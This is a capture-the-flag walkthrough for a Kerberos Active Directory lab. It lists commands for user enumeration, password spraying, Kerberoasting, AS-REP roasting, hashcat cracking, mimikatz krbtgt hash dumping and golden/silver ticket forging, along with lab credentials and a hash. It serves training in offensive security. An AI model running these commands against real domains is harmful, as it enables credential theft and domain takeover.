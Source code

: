 ## Machine Details
ipaddr=10.10.16.188

## Pre Reqs

### Install kerbrute (task 2)

1.) Download a precompiled binary for your OS - https://github.com/ropnop/kerbrute/releases

2.) Rename kerbrute_linux_amd64 to kerbrute

3.) chmod +x kerbrute - make kerbrute executable

### Install Impacket (task 4)

git clone https://github.com/SecureAuthCorp/impacket.git
pip3 install -r requirements.txt
python3 setup.py install

## TASK 1

Simple anser the questions


## Task 2 - Enumeration w/ Kerbrute

### Edit hosts file
```bash
$IP controller.local
```
### Download the User.txt wordlist
```bash
wget https://raw.github.com/Cryilllic/Active-Directory-Wordlists/master/User.txt
```
### using kerbrute run the following
```bash 
./kerbrute userenum --dc CONTROLLER.local -d CONTROLLER.local User.txt
```

Use info from the above command to answer questions

## Task 3 - Harvesting Tickets w/ Rubeus

RDP or ssh to $IP

$username = Administrator
$password = P@$$W0rd

```bash
cd Downloads
Rubeus.exe harvest /interval:30
```

Save output to a file for later reference

### Brute-Forcing / Password-Spraying

add to windows hosts file

```windows
echo $IP controller.local >> c:\Windows\System32\drivers\etc\hosts
```
Now run password spray with Rubeus
```bash
Rubeus.exe brute /password:Password1 /noticket
```

Save out to a file for later reference

User the info gather to answer the questions

## Task 4 - Kerberoasting w/ Rubeus & Impacket

### Kerberoasting w/ Rubeus

Still on the windows machine

```bash
cd Downloads
Rubeus.exe kerberoast
```

Copy the hashes to a file on your local machine.

Get the following wordlist

```bash
wget https://raw.githubusercontent.com/Cryilllic/Active-Directory-Wordlists/master/Pass.txt
```

Use hashcat to find the password.

The room tells you which mode to use, so no need to figure that out.

```bash
hashcat -m 13100 -a 0 hash.txt Pass.txt
```


### Impacket

Navigate to the examples directoy

run the following to dump the kerberos hash
```python
sudo python3 GetUserSPNs.py controller.local/Machine1:Password1 -dc-ip $IP -request
```

Use the hashes to crack the hash with hashcat as previous

Use the info gathered to answer the questions

## Task 5 - AS-REP Roasting w/ Rubeus

On the windows machine

```bash
cd Downloads
Rubeus.exe asreproast
```

save output as hash

add ```23$``` after ```$krb5asrep$``` so that the first line will be ```$krb5asrep$23$```

Use hashcat and the same wordlist as previously to crack those hashes

```bash
hashcat -m 18200 hash.txt Pass.txt
```

Use the info gathered to answer the questions.

## Task 6 - Pass the Ticket w/ mimikatz

Just read, try and understand.

## Task 7 - Pass the Ticket w/ mimikatz 

On the windows machine

```bash
cd Downloads
mimikatz.exe
```

In the mimikatz console
```
privilege::debug
```
Ensure response is 20 ok

dump the hash and sec id needed to create a golden ticket.
```
lsadump::lsa /inject /name:krbtgt
```

make note of SID and NTLM Hash (primary)


### Create a golden/silver ticket

create a silver ticket for SQLService 

```
lsadump::lsa /inject /name:SQLService
```
```
Kerberos::golden /user:SQLService /domain:controller.local /sid:S-1-5-21-432953485-3795405108-1502158860 /krbtgt:cd40c9ed96265531b21fc5b1dafcfb0a /id:1103
```

Use info gathered/learned to answered the questions

## Kerberos Backdoors w/ mimikatz

Read and understand.
